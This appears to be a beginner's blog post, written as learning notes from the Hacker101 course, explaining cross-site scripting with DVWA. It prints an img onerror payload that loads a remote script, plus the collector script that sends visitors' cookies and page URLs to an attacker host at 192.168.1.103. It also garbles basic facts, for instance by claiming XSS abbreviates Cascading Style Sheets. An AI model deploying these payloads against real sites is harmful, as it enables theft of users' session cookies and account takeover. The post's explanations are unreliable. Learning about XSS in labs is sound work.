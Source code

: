 ```yaml
---
layout: title
title: How to use XSS
date: 2018-12-17 09:11:06
tags: hacker101, security, XSS
categories: Hack
---
```


After following the hack101 video tutorial for a while. I want to write some note about XSS. 

## What is XSS

XSS(Cross Site Scripting) is the mix abbreviation for Cascading Style Sheets, CSS. Though it seems out of date at the moment. But to some beginner just like me, it's a good way to experience the fun of looking bugs. 

## XSS detecting
People can deploy a DVWA as a dev environment for testing the XSS.

At the lowest security level of DVWA, the client owns no filter to any users input. It means, input is the output. 

The simplest XSS detecting is the `alert(1)`. Whether create a div or inject a `<script>alert(1)</script>`, the things we focus on is compile the code. 

## How hacker use XSS
Sometimes, when the security developer found that bug, he will terminate the XSS, that is one of his duty. But as a cursorily, he needs to use those bug to find why a way to hackin the inside. 
If the website exists XSS loophole, then it must be able to run the js code.

e.g. we can get the cookies on the page by enter alert(document.cookie). But most of time, hacker don't just inject a snippet of code, since it is no reason to use their own cookie. But they can send the cookies to a platform. Like XSSer, receive the XSS from all over the world. 

When xsser has done, hacker can insert the script into page like this: 

```
<img   onerror="s=createElement('script');body.appendChild(s);s.src='http://192.168.1.103/xss/SMA9ST';" src="x">
```

This is a img tag, the src is point to `x`. Obviously, this address is not exists. So it will run `onerror`. This function will generate a script tag, then point the new script tag to the xsser platform, which we builded before. Once the code request to the xsser. It will get the code, e.g.

```
(function() {
		(new Image()).src = 'http://192.168.1.103/xss/index.php?do=api&id=SMA9ST&location=' + escape((function() {
			try {
				return document.location.href
			} catch (e) {
				return ''
			}
		})()) + '&toplocation=' + escape((function() {
			try {
				return top.location.href
			} catch (e) {
				return ''
			}
		})()) + '&cookie=' + escape((function() {
			try {
				return document.cookie
			} catch (e) {
				return ''
			}
		})()) + '&opener=' + escape((function() {
			try {
				return (window.opener && window.opener.location.href) ? window.opener.location.href : ''
			} catch (e) {
				return ''
			}
		})());
	})();
```

In this code snippet, it also generate a image object and request a xsser project. Than we got the location information and cookies. 

Everytime when people open XSS page, the browser will run that kind of code, it mask as a image to send data to xsser.

That is the simple usage of XSS.

